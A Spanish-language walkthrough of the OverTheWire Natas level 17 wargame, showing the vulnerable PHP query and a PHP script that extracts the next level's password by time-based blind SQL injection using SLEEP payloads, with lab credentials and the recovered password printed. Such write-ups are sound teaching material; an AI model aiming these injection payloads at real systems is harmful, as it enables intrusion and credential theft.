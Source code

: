 Este nivel es similar al nivel 15, con la salvedad de que ahora no se imprime
por pantalla el resultado de la consulta (ni siquiera si dio o no resultado).

```php
...
$res = mysqli_query($link, $query);
if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
} else {
    echo "Error in query.<br>";
}
...
```

Para resolver el ejercicio, podemos utilizar la misma técnica, pero cambiando el
criterio de validación. Debido a que no vemos el resultado, podemos agregar en
caso de que encuentre resultado, un `sleep`. Luego en base al tiempo de
respuesta determinaremos el resultado de la misma.

```php
$authorization = base64_encode("natas17:XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd");
$url = "http://natas17.natas.labs.overthewire.org/index.php?debug";
$valid_time = 5;

function verify($inyection)
{
    global $authorization;
    global $url;
    global $valid_time;

    $options = [
        'http' => [
            'header' => "Content-type: application/x-www-form-urlencoded\r\n" .
                "Authorization: Basic $authorization\r\n",
            'method' => 'POST',
            'content' => http_build_query(['username' => $inyection]),
        ],
    ];

    $context = stream_context_create($options);

    $time_pre = microtime(true);
    file_get_contents($url, false, $context);
    $time_post = microtime(true);

    return ($time_post - $time_pre) > $valid_time;
}

function contains_inyection($substring)
{
    return "natas18\" AND password LIKE BINARY \"%$substring%\" AND SLEEP(5) != \"";
}

function startwith_inyection($start)
{
    return "natas18\" AND password LIKE BINARY \"$start%\" AND SLEEP(5) != \"";
}


function equals_inyection($password)
{
    return "natas18\" AND password LIKE BINARY \"$password\" AND SLEEP(5) != \"";
}
```

El resto del código es similar al de los niveles anteriores.Al ejecutarlo,
obtendremos la contraseña para el usuario natas18 luego de un rato.

```
$ php crack-natas17.php
...
...
Final password: 8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq
```

Debido a que depende del tiempo, es mejor si se ejecuta multiples veces de forma
simultánea. Esto permite encontrar errores y corregirlos.

